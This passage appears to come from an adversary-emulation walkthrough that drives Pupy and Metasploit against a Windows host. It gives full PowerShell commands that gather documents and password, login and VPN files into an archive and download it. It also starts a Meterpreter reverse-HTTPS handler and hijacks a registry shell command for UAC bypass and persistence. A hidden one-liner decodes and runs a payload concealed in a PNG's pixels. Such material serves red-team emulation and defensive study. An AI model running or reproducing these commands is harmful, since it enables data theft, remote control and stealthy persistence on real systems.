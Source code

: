 [pupy (PowerShell)] >

```
$env:APPDATA;$files=ChildItem -Path $env:USERPROFILE\ -Include *.doc,*.xps,*.xls,*.ppt,*.pps,*.wps,*.wpd,*.ods,*.odt,*.lwp,*.jtd,*.pdf,*.zip,*.rar,*.docx,*.url,*.xlsx,*.pptx,*.ppsx,*.pst,*.ost,*psw*,*pass*,*login*,*admin*,*sifr*,*sifer*,*vpn,*.jpg,*.txt,*.lnk -Recurse -ErrorAction SilentlyContinue | Select -ExpandProperty FullName; Compress-Archive -LiteralPath $files -CompressionLevel Optimal -DestinationPath $env:APPDATA\Draft.Zip -Force
```

[pupy (PowerShell)] > `exit`

[pupy (CMD)] > `exit`

#### 2.B

[pupy] > `download "C:\Users\<username>\AppData\Roaming\Draft.Zip" .`

### Step 3 - Deploy Stealth Toolkit

#### 3.A

Start Metasploit handler:

[msf] > `handler -H 0.0.0.0 -P 443 -p windows/x64/meterpreter/reverse_https`

From Pupy, upload monkey.png to target:

[pupy] > `upload "/tmp/monkey.png" "C:\Users\<username>\Downloads\monkey.png"`
[pupy] > `shell`
[pupy CMD] > `powershell`

#### 3.B

[pupy (PowerShell)] >

```
New-Item -Path HKCU:\Software\Classes -Name Folder -Force;
New-Item -Path HKCU:\Software\Classes\Folder -Name shell -Force;
New-Item -Path HKCU:\Software\Classes\Folder\shell -Name open -Force;
New-Item -Path HKCU:\Software\Classes\Folder\shell\open -Name command -Force;
Set-ItemProperty -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Name "(Default)"
```

**Paste the following 1-liner when prompted for value:**

```
powershell.exe -noni -noexit -ep bypass -window hidden -c "sal a New-Object;Add-Type -AssemblyName 'System.Drawing'; $g=a System.Drawing.Bitmap('C:\Users\username\Downloads\monkey.png');$o=a Byte[] 4480;for($i=0; $i -le 6; $i++){foreach($x in(0..639)){$p=$g.GetPixel($x,$i);$o[$i*640+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G-band15))}};$g.Dispose();IEX([System.Text.Encoding]::ASCII.GetString($o[0..3932]))"
```

[pupy (PowerShell)] >

```
Set-ItemProperty -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Name "DelegateExecute" -Force
```
